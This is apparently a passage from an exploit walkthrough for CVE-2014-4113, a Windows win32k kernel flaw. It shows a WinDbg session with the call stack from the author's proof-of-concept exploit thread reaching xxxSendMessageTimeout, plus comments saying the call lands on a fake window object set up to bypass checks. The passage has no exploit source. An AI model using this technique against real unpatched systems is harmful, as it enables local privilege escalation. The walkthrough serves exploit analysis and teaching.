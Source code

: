 ![sendmessagetimeout](/assets/images/cve-2014-4113/invalid_pwnd.jpg)

<br>

```
0: kd> p
win32k!xxxSendMessageTimeout+0xad:
0008:925b93f4 mov     edi,dword ptr [win32k!gptiCurrent (9271eb58)]
0: kd> kvn
 # ChildEBP RetAddr  Args to Child
00 93603a64 925b95c5 fffffffb 000001ed 0076f9b4 win32k!xxxSendMessageTimeout+0xad (FPO: [Non-Fpo])
01 93603a8c 926392fb fffffffb 000001ed 0076f9b4 win32k!xxxSendMessage+0x28 (FPO: [Non-Fpo])
02 93603aec 92638c1f 93603b0c 00000000 0076f9b4 win32k!xxxHandleMenuMessages+0x582 (FPO: [Non-Fpo])
03 93603b38 9263f8f1 fde46848 9271f580 00000000 win32k!xxxMNLoop+0x2c6 (FPO: [Non-Fpo])
04 93603ba0 9263f9dc 0000001c 00000000 ffffd8f0 win32k!xxxTrackPopupMenuEx+0x5cd (FPO: [Non-Fpo])
05 93603c14 82a8e1ea 01c10273 00000000 ffffd8f0 win32k!NtUserTrackPopupMenuEx+0xc3 (FPO: [Non-Fpo])
06 93603c14 77d570b4 01c10273 00000000 ffffd8f0 nt!KiFastCallEntry+0x12a (FPO: [0,3] TrapFrame @ 93603c34)
07 0076f9c8 7786483e 77852243 01c10273 00000000 ntdll!KiFastSystemCallRet (FPO: [0,0,0])
08 0076f9cc 77852243 01c10273 00000000 ffffd8f0 USER32!NtUserTrackPopupMenuEx+0xc (FPO: [6,0,0])
09 0076f9ec 0102eedd 01c10273 00000000 ffffd8f0 USER32!TrackPopupMenu+0x1b (FPO: [Non-Fpo])
0a 0076fb24 76883c45 00000000 0076fb70 77d737f5 CVE_2014_4113!ExploitThread+0x20d (FPO: [Non-Fpo]) (CONV: stdcall) [j:\dev\temp\exploit\poc\exploitation\source\exploit\cve-2014-4113\cve-2014-4113.c @ 421]
0b 0076fb30 77d737f5 00000000 77b65d12 00000000 kernel32!BaseThreadInitThunk+0xe (FPO: [Non-Fpo])
0c 0076fb70 77d737c8 010299eb 00000000 00000000 ntdll!__RtlUserThreadStart+0x70 (FPO: [Non-Fpo])
0d 0076fb88 00000000 010299eb 00000000 00000000 ntdll!_RtlUserThreadStart+0x1b (FPO: [Non-Fpo])

0: kd> r
eax=fffffe0d ebx=000001ed ecx=927120e4 edx=93603b78 esi=fffffffb edi=00000000
eip=925b93f4 esp=93603a3c ebp=93603a64 iopl=0         nv up ei ng nz na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000286
win32k!xxxSendMessageTimeout+0xad:
0008:925b93f4 mov     edi,dword ptr [win32k!gptiCurrent (9271eb58)] ds:0023:9271eb58=fe665dd8

0: kd> * Finally we hit our vulnerable function, which we end up calling
0: kd> * On a fake window object that has all the needed offsets setup correctly to bypass the checks
```